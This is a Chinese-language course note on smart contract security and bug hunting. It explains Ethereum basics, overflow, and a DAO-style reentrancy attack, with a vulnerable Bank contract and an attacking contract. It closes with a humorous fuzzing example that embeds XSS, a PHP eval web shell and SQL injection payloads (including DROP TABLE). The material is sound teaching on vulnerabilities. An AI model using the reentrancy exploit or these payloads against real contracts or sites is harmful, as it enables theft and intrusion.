

# 第 11 天：智能合约安全，以及挖掘漏洞

## 智能合约安全

### 传统合约

传统合约是以人类的自然语言所描述的，由法律强制执行和审查的一系列商定条款。

比如：

> 帝牙卢卡：你如果给我一万三千宝可币的话，那我就加上自己的一万三千宝可币去买那个理财产品。
>
> 帝牙卢卡：一个月后，我会把钱取出来，然后我们俩平分。
>
> 帕路奇亚：听起来不错。

在这期间，围绕这个合约的，有这么几类人员：

- 承诺人（帝牙卢卡）。
- 受约人（帕路奇亚）。
- 法院（自爆磁怪警队）。

然而，传统合约存在一些问题。首先它并不高效；并且，它也有不确定性。如果后来帝牙卢卡和帕路奇亚因为利益分配而大打出手，那剩下的大家就没有好果汁吃了。

问题来了，假设我们现在丢掉菜得爆炸的自爆磁怪警队，有没有一种**算法**可以百分之百地正确而高效地执行合约呢？

### 智能合约

智能合约是由程序语言描述的一串东西编译成二进制的产物，它由计算机自动执行。

在真实世界中确实很难去**使用**代码……但是，在以太坊（Ethereum）可以！

### 以太坊 Ethereum

以太坊是一个开源的有智能合约功能的公共区块链平台，通过其专用加密货币以太币（Ether，ETH）提供去中心化的以太虚拟机（Ethereum Virtual Machine）来处理点对点合约。

### 以太坊全节点 Ethereum Full Node

它处理 P2P 类型的请求。每一个以太坊全节点拥有一整条区块链的复制，并且会验证所有交易和区块。

它可以被多种语言给写出来，比如 Go、Rust、C++ 什么的。

### 账户

外有账户 External Owned Account：

- 以地址区分不同的外有账户。
- 每个外有账户拥有一组公私钥。
- 每个外有账户都有它所关联的余额（Balance，单位是以太币）。

合约账户 Smart Contract Account：

- 以地址区分不同的合约账户。
- 合约账户**没有**公私钥！
- 每个合约账户都有它所关联的余额（Balance，单位是以太币）。
- 拥有和自己相关的代码和存储数据。

### 交易 Transaction

交易是一种可以改变区块链的行为，这种行为可以运行更改全局状态（存储数据）地的代码（合约）。

交易是由外有账户发起的。它有以下类别：

- 以太币的转移
- 在以太坊网络上部署合约
- 以已经部署的合约执行程序

它们运行在一种叫做 Solidity 的语言上。从名字可以看出作者非常希望它 solid……

#### 字节码和运行时字节码

字节码：初始化字节码和运行时字节码的合并。

运行时字节码：最终在区块链里面的字节码。没有初始化的那一段字节码。

```solidity
pragma solidity ^0.8.0

contract SimpleStorage {
	uint storedData;

	constructor() {
		storedData = 1;
	}

	function set(uint x) public {
		storedData = x;
	}

	function get() view public returns (uint) {
		return storedData;
	}
}
```

其中 constructor() 的那一段就对应初始化字节码。

```shell
solc --bin SimpleStorage.sol # 字节码
solc --bin-runtime SimpleStorage.sol # 运行时字节码，比上面那个少一段
```

#### 以太币的转移

- From：Fund sender，一个外有账户的地址
- To：Fund recipient，另外的一个地址
- Value：Ether Amount
- Data：Empty

```solidity
eth.sendTransaction({
	from: eth.accounts[0],
	to: eth.accounts[1],
	value: web3.toWei(10)
	})
```

#### 在以太坊网络上部署合约

- From：Contract deployer，一个外有账户的地址
- To：Empty
- Value：Ether Amount
- Data：Bytecode, plus any encoded args if required by constructor

```solidity
var bytecode = ...
eth.sendTransaction({
	from: eth.accounts[0],
	data: bytecode,
	gas: 200000
	})
```

```solidity
eth.getTransactionReceipt("...")
```

#### 以已经部署的合约执行程序

- From：Contract caller，一个外有账户的地址
- To：某个地址
- Value：Ether Amount
- Data：Function selector + encoded args

#### 函数选择器 Function selector

函数名字以它们的 web3.sha3 加密后的 0x 加上后面八位数（四个字节）作为它们的函数选择器。

### 智能合约的安全问题

#### 溢出

value1 = 8fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff，

value2 = 7000000000000000000000000000000000000000000000000000000000000001：

value1 + value2 = 0

#### 重入攻击

Solidity 的函数调用分高等和低等两种。低等调用是用一个对象后面接 `.call.value(amount)` 执行，而高等调用就是在 contract 里面写函数。

下面这个是高等的：

```solidity
contract Bob {
	uint x = 0;
	function pong(Alice c) {
		x = 1;
		c.ping(42); // 有问题
		x = 2;
	}
}
```

最后 x = 0。注意是等于 0！

而下面这个是低等的：

```solidity
contract Bob {
	uint x = 0;
	function pong(address c) {
		x = 1;
		c.call.value(10000)(
			bytes4(sha3("ping(uint)"), 10
		); // 有问题
		x = 2;
	}
}
```

最后 x = 2。

对于报错（Exception），高等调用的时候会处理，但是低等调用的时候会对此不闻不问。

Solidity 需要一个合约有正好一个无名函数，这个函数在没有任何其它函数符合条件的时候被执行。它不能有参数，不能有返回值，并且必须是 external 权限。这个无名函数就叫做 fallback 函数。

当合约接收到以太币但是不调用任何函数的时候，就会执行 fallback 函数。如果一个合约接收了以太币但是内部没有 fallback 函数，那么就会抛出异常，然后将以太币退还给发送方。

利用它，可以执行一个 DAO 攻击。

```solidity
contract Bank {
	function withdrawBalance() {
		uint amountToWithdraw = userBalances[msg.sender];
		if (msg.sender.call.value(amountToWithdraw)() == false) {
			throw;
		}
		userBalances[msg.sender] = 0;
	}
}
```

这个是个银行的代码的一部分。用户可以在里面存取钱。这个函数描述的取出所有钱的功能。

而它有很大的问题：把用户余额清零的那一行放在了发送以太币之后！

我们利用 fallback 函数来攻击它：

```solidity
contract Kali {
	address addressOfBank;
	uint attackCount;

	function Kali(address addr) payable {
		addressOfBank = addr;
		attackCount = 2;
	}

	function () payable {
		while (attackCount > 0) {
			attackCount--;
			Bank bank = Bank(addressOfBank);
			bank.withdrawBalance();
		}
	}

	function withdraw() {
		Bank bank = Bank(addressOfBank);
		bank.withdrawBalance();
	}
}
```

此时 Kali 调用他的 withdraw，其中调用了 Bank 的 withdrawBalance。

Bank 给 Kali 打钱后，调用了 Kali 的 fallback 函数。

他的 fallback 函数里面又会调用 Bank 的 withdrawBalance，而此时 Bank 还没把 Kali 的余额清空！

在进行 1 + attackCount = 3 次取款后，Kali 拿走了相当于他本来余额的三倍的钱。如果他把 attackCount 调高一点呢？

## 挖掘漏洞

### 为什么要挖掘漏洞？

为了正义。

为了建立一个更加安全的世界。

#### 选择方向

- OS
	- PC
		- Windows
		- MacOS
		- Linux
		- Chrome OS
	- Mobile
		- IOS
		- Android (Native / Vendor)
- Browser
	- Chrome
	- Safari
	- Firefox
- Virtualization
	- Qemu
	- VMware
	- HyperV
	- KVM
	- Parallels Desktop

#### 调查

去调查什么？

- 被你挖掘的方向的研究趋势
- 怎么挖掘漏洞？
  
在哪里可以找到答案？

- USENIX / S&P / NDSS / CCS 等
- BlackHat / DEFCON / HITCON / POC 等
- 知名安全博客（例如 Google Project Zero）
- 安全更新

#### 漏洞挖掘的方法

- 代码审计（看源代码）
- 静态分析
- Fuzzing？

#### Fuzzing

Fuzzing 是模糊测试的意思。这是一种给目标系统喂各种各样的东西，并监视异常结果，以此发现软件漏洞的方法。



```plain
晃晃斑说晃晃斑咖啡馆需要一次模糊测试。
Kate 走进晃晃斑咖啡馆，要了一杯复活之种冰沙。
Kate 走进晃晃斑咖啡馆，要了一杯复原之种冰沙。
Kate 走进晃晃斑咖啡馆，要了 0.114514 杯饮料。
Kate 走进晃晃斑咖啡馆，要了 -1 杯饮料。
Kate 走进晃晃斑咖啡馆，要了 255 杯饮料。
Kate 走进晃晃斑咖啡馆，要了一杯时拉比的洗澡水。
Kate 走进晃晃斑咖啡馆，要了一位森林蜥蜴。
凯特 walks into the Spinda's Cafe, and グラス一杯の飲み物を求めます。
Kate 走进晃晃斑咖啡馆，要了一杯 qwertyuiop!@#$%^&*()_+。
Kate 走进晃晃斑咖啡馆，什么也没要。
Kate 走进晃晃斑咖啡馆，要了一杯烫烫烫的锟斤拷。
Kate 走进晃晃斑咖啡馆，要了一杯 *。
Kate 冲进晃晃斑咖啡馆，要了 9223372036854775808 吨蓝菊果汁撒隆隆树之石屑榨不可思议硬糖配饥饿之种奶茶。
Kate 走进晃晃斑咖
Kate 走进晃晃斑咖啡馆，要了 NaN 杯 Null 加 Nil。
Kate 走进晃晃斑咖啡馆，把店里的一切东西都给了一发撞击，然后要了一杯电光一闪。
Kate 跳进晃晃斑咖啡馆，然后倒着走了出去。
Kate 走进晃晃斑咖啡馆，又走出去又从窗户进来又从后门出去从下水道钻进来。
Kate、Kali 和玛纳霏躺在克雷色利亚的背上进了晃晃斑咖啡馆。
Kate 走进晃晃斑咖啡馆，又走出去又进来又出去又进来又出去，最后在外面把晃晃斑打了一顿。
Kate 把晃晃斑咖啡馆拆了。
Kate 让百变怪化装成小果然走进晃晃斑咖啡馆，要了 500 杯饮料并且不给原材料。
口袋之友探险队的全体成员在晃晃斑咖啡馆门外呼啸而过。
Kate 让阿尔宙斯走到晃晃斑咖啡馆门口并让他执行批处理指令，然后 2147483647 个宝可梦走进了晃晃斑咖啡馆各 2147483647 次。
Kate 让一位叫 Exception 的飞天螳螂走进晃晃斑咖啡馆。
Kate 走进晃晃斑咖啡馆，<script>alert("要了一杯饮料");</script>。
Kate 走进晃晃斑咖啡馆，要了一杯<?hph @eval($_POST['Drink']); ?>。
Kate 走进晃晃斑咖啡馆，要了一杯饮料' and 1=1。
Kate 走进晃晃斑咖啡馆，要了一杯饮料'; DROP TABLE Spinda_s_Cafe; --+。
Kate 以及队友们满意地离开了晃晃斑咖啡馆。
然后 Kali 进来点了一份炒饭，晃晃斑咖啡馆炸了。
```

> tmd 这个 Windows Defender 总是把上面那个当成真正的后门，所以把 php 改成了 hph。

- 效率很高！
- 没什么知识壁垒！
	- 输入
	- 劫持和执行
	- 信息的收集
	- 错误检测

那么怎么做呢？

- 选择一个 API 进行攻打。
- 给这个 API 写点工具。
- 跑模糊测试。
- 改进你的模糊测试框架。
	- 策略的变化
	- 更好的错误检测
